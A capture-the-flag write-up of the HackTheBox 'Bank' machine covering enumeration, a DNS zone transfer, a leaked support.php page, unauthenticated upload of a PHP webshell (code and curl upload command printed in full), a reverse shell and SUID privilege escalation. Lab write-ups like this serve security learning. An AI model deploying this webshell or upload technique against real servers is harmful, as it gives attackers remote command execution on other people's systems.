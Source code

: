 # HackTheBox - Bank

![Screenshot0](./screenshots/0.png)

<br>

## Table of Contents

- [Enumeration](#Enumeration)
    - [Portscan](#Portscan)
    - [Webserver](#Webserver)
    - [DNS Zone-Transfer](#DNS-Zone-Transfer)
    - [Webserver](#Webserver)
- [Foothold](#Foothold)
    - [Source Code Leakage](#Source-Code-Leakage)
    - [Unauthenticated File Upload](#Unauthenticated-File-Upload)
    - [User Flag](#User-Flag)
- [Privilege Escalation](#Privilege-Escalation)
    - [SUID Abuse](#SUID-Abuse)
    - [Root Flag](#Root-Flag)

<br>
<br>

## Enumeration

### Portscan

I started as usual with a portscan.

__Command:__ `nmap -p- -sV -sC -T4 <IP>`

![Screenshot1](./screenshots/1.png)

We can see an open web server on port 80, a DNS server on port 53 and an SSH server on port 22.

<br>

### Webserver

I accessed the web server under the IP and saw an Apache2 default page.

![Screenshot2](./screenshots/2.png)

I went through my enumeration checklist for web servers and found nothing.

<br>

### DNS Zone-Transfer

So I guessed the name and tried to get smarter from the DNS server.

Here is a successful zone transfer.

__Command:__ `dig axfr bank.htb @<IP>`

![Screenshot3](./screenshots/3.png)

### Webserver

I entered __bank.htb__ in my `/etc/hosts` file and called the domain.

![Screenshot4](./screenshots/4.png)

Now I saw a login page and enumerated the server using the domain name again.

__Command:__ `ffuf -w <WORDLIST> -u http://bank.htb/FUZZ -ic`

![Screenshot5](./screenshots/5.png)

![Screenshot6](./screenshots/6.png)

<br>
<br>

## Foothold

### Source Code Leakage

In the file `support.php` I noticed that the source code is disclosed before the redirect.

![Screenshot7](./screenshots/7.png)

An interesting HTTP comment caught my interest which says that `.htb` file endings are also executed as PHP.

<br>

### Unauthenticated File Upload

So I created a simple webshell named `shell.htb`...

```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>
```

... and uploaded it with a __curl__ command.

```bash
curl -X POST http://bank.htb/support.php -F "title=something1" -F "message=something des Problems" -F "fileToUpload=@./shell.htb" -F "submitadd=" -H "Content-Type: multipart/form-data"
```

<br>

### User Flag

The webshell was then accessible under `/uploads/` and from there I established a reverse shell.

![Screenshot8](./screenshots/8.png)

I operated as user `www-data` and was able to get the user flag in the home folder of user `chris`.

![Screenshot9](./screenshots/9.png)

<br>
<br>

## Privilege Escalation

### SUID Abuse

The privilege escalation was done quickly.

When searching for files with __SUID__ set, the following binary caught my eye:

__Command:__ `find / -perm /4000 2>>/dev/null`

![Screenshot10](./screenshots/10.png)

![Screenshot11](./screenshots/11.png)

<br>

### Root Flag

A simple execution of the file brought me a shell as `root` and I got the final flag.

![Screenshot12](./screenshots/12.png)





